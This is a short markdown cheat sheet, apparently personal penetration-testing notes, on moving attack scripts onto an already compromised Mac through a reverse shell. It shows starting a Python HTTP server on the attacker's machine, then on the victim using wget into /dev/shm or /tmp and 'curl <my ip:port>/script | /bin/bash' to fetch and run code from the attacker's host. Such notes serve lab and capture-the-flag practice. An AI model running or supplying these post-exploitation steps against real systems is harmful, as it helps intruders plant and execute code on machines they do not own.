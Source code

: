 ## PYTHON server 

**on my terminal**
  (open the server in the dir you have the scripts so that it will wget all the files of the dir on the mac)

```bash
  python -m SimpleHTTPServer (portnumber)
```
```bash 
python3 -m http.server (portnumber)

```

**on the mac so obtained/revershell**

dir > /dev/shm (wget any script in this dir)

```bash
 wget -r <my ip>  #(do ifconfig to know the ip)
```
  or

```bash
 curl <my ip:port>/script | /bin/bash
```

Note: you can also wget or curl in /tmp directory 

